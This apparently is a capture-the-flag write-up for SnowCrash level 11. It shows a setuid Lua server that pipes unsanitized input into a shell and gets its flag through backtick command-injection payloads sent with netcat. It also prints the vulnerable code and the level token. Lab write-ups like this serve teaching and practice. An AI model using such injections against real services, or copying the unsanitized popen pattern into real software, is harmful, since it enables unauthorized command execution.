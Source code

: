 # 1st Step
List the files in level11 user home directory to find 'level11.lua' file owned by `flag11` user  
```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
level11@SnowCrash:~$
```
About lua files : [Wikipedia](https://fr.wikipedia.org/wiki/Lua)  
I don't really understand what this file do but it create a local server with an IP adress and a port so let's listen it with netcat and try to understand how we can get our flag  

# 2nd Step
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password:
```
We ask us a password, let's try the hash one in the .lua file :
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: f05d1d066fb246efe0c6f7d095f909a7a0cf34a0
Erf nope..
level11@SnowCrash:~$
```
Mmmmmmh .. it don't really help. Let's do some tests and try to execute commands
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: getflag
Erf nope..
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag`
Erf nope..
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: getflag > /tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
getflag
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
level11@SnowCrash:~$
```
Ok .. it was easy  
```
level11@SnowCrash:~$ su level12
Password:
level12@SnowCrash:~$
```
Level11 passed !